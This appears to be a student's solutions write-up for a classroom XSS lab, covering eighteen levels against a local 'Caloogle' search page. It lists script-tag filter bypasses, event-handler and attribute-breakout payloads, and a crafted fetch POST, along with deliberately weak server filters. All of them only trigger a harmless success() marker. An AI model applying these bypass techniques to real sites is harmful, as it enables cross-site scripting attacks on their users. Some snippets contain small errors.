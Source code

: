 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)
//explanation:the competitor's website is localhost:4010/search
//I spend three days to find out where it is. 
//If I didn't check the code of the server, it will be much longer.(such a nasty design!)
```
<script>success()</script>
```

# 2. No Script Allowed (3 points)
//oh, I see. The browser didn't show the the content in <iframe>. 
//But why,I can't figure it out. The browser don't allow put iframe inside the page?
```
<scscriptript>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<scriscriptpt>success()</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
<ScriPt>success()</sCript>
```

# 5. Time to Mix Things Up (3 points)
//It is the same as 4
```
<ScriPt>success()</sCript>
```

# 6. A Picture is Worth a Thousand Words (3 points)
//this one is funny.
```
<body onload=success()></body>
```

# 7. Between a Rock And a Hard Place (3 points)
//onload,onerror,onpageshow...
```
<body onpageshow=success()></body>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<body onload=success()>>
```

Server code:


```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  
   q = q.replace(/</，'').replace(/>/,'')


  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)
//the most important thing is the input of user becomes one of HTML attributes.
//And they are circled by quotes. So we have to pair the quotes.
//the htmlElementEscape() function doesn't work for the values of HTML attributes.
```
" onload=success()
```

# 11. You Can't Win 'em All (6 points)
//they only filter " for once
Attack input:

```
""onload=success()
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  
   q = q.replace(/"/,'&quot;')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
'onload=success()
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  
   q = /"/g, '&quot;'

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)
//it is actually inject to the body,but why?
//I don't know either.
//I did't find the answer
Attack URL:

```
http://localhost:4140/search?q=1585&lang=es%20onload=success()
```

# 15. The Early Bird Catches the Worm (3 points)
//the solutions are mentioned before on the class.
//If there are multiple pairs of script tags, all of them will be executed.
```
</script><script>onload=success()</script>
```

# 16. Tying Up Loose Ends (3 points)
<!--the </ are filtered only once-->
```
<<//script><script>onload=success()<<//script>
```

# 17. Take a Page Out of Their Book (6 points)
```
漏洞说明：
最开始我以为input是注入点，后来才发现inpput的类型早就固定为text，传来传去还是text，不会被执行。
关键在于下面的源代码语句：
	if(comment.id==null) comment.id = await getNext AvailableIdFromDatabase（）
如果用户提交的req.body中没有id，则自动为用户赋上id。但如果用户有id，则什么都不做（也就是id会被保留）
所以攻击的方式是：把success()放进id中，然后构造POST请求，把构造的comment对象传上去（因为按照这个网页的逻辑，用户没有机会输入id，但是服务器端又可以接收id。所以需要构造POST请求）
关于代码的解释：
	1.fetch API用于提交请求。fetch()强制接受一个参数，即要获取资源的路径（这里指的是‘/comment’）。它返回一个Promise，该Promise会在服务器使用标头响应后，兑现为该请求的Response。
	关于fetch API，详见：
	https://developer.mozilla.org/zh-CN/docs/Web/API/Fetch_API
	https://developer.mozilla.org/zh-CN/docs/Web/API/fetch
	2.Promise是一个ECMAScript 6提供的类，目的是更加优雅地书写复杂的异步任务。
	关于Promise，详见：
	https://www.runoob.com/js/js-promise.html
	3.JSON是用于存储和传输数据的格式。JSON格式仅仅是一个文本，文本可以被任何编程语言读取，或者作为数据格式传递。JSON语法规则：1,数据为键值对。2.由逗号分隔。3.大括号保存对象。4.方括号保存数组。
	详见：https://www.runoob.com/js/js-json.html
	4.在使用POST请求传递JSON数据时，通常需要将JSON数据转换为字符串格式，然后在请求头中设置Content-Type为application/json.
	5.fetch()接收到的response是一个stream。response.json()是一个异步操作，取出所有内容，并将其转为JSON对象。
	6.windows.location.reload()没有参数（只有firefox支持一个boolean参数），用于刷新当前页面。
	7. ES2017标准引入了async函数，使得异步操作变得更加方便。await函数只能用在async函数中。、async函数会返回一个Promise对象。await命令相当于其后语句返回的Promise对象的then方法。
```
Attack code:
	才发现下面这段代码就在源网页代码中的script标签里，源代码如下：
	
    window.wiggle = (id) => {
      const e = window.event

      console.log(`wiggling comment ${id}`)

      e.target.classList.add('animated', 'jello')
      setTimeout(() => {
        e.target.classList.remove('animated', 'jello')
      }, 1000)
    }

    const $commentForm = document.querySelector('.commentForm')
    const $commentInput = document.querySelector('.commentInput')

    $commentForm.addEventListener('submit', async e => {
      e.preventDefault()

      const comment = {
        text: $commentInput.value,
        id: null() // let server fill this in（I didn't try to modify this id, so I don't know whether it is effective or not if modify id:null() to id:"success()"）
      }

      await window.fetch('/comment', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify(comment)
      })

      window.location.reload()
    })
  
```js
paste the code below,and put it into console.Then ,execute it.
const comment={
	text:'We will get success!',
	id:"success()"
};
fetch('/comment',{
	method:'POST',
	headers:{
		'Content-Type':'application/json'
	},
        body:JSON.stringify(comment)
})
.then(function(response){
	response.json()
})
.then(function(data){
	console.log(data);
	windows.location.reload();
})
.catch(function(error){
	console.log(error);	
});
```

# 18. Congrats

N/A

# Survey responses (3 points)

